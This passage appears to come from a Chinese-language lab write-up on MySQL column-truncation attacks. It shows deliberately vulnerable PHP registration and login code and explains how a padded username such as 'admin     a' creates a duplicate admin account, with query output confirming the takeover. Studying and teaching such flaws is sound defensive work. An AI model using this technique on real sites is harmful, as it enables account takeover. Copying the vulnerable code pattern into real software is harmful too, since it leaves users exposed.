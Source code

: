 ```php
$result = $db->query($query);
if ($result->fetch_row()) {
    die('已存在该用户');
} else {
    $query = "insert into user (`username`,`password`) values('$username','$password')";
    $db->query($query);
    die('注册成功');
}
```

```php
<?php
highlight_file(__FILE__);
$db = new mysqli("192.168.241.128", "root", "root", "sql_injection_test", "4700");
if (mysqli_connect_errno()) { #检查连接
    printf("Connect failed: %s\n", mysqli_connect_error());
    exit();
}
if (empty($_POST['username']) || empty($_POST['password'])) {
    exit();
}
$username = mysqli_real_escape_string($db, $_POST['username']);
$password = mysqli_real_escape_string($db, $_POST['password']);
$query = "select * from user where username = '$username' and password='$password';";
$result = $db->query($query);
var_dump($result->fetch_row());
```

直接注册`admin`显然是不可以的,但是可以对`username`传入参数为`admin     a`

```
mysql root@localhost:sql_injection_test> select * from user where username="admin     a"
+----+----------+----------+
| id | username | password |
+----+----------+----------+
0 rows in set
Time: 0.009s
```

显然`admin     a`不存在数据库中,因此进行插入操作,而在进行插入操作时,由于字符串过长,mysql会对字符串进行截断后插入,字符串被截断为`admin     `(5个空格)然后进行插入操作

mysql对空格会特殊处理,具体表现在进行select操作时会忽略该字段的后面多余的空格,由此达到了平行越权的目的

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201282045402.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201282047581.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201282046916.png)

```
mysql root@localhost:sql_injection_test> select * from `user` where username='admin     ';
+----+------------+------------+
| id | username   | password   |
+----+------------+------------+
| 1  | admin      | ASDFG12345 |
| 2  | admin      | admin      |
+----+------------+------------+
2 rows in set
Time: 0.007s
mysql root@localhost:sql_injection_test> select * from `user`;
+----+------------+------------+
| id | username   | password   |
+----+------------+------------+
| 1  | admin      | ASDFG12345 |
| 2  | admin      | admin      |
```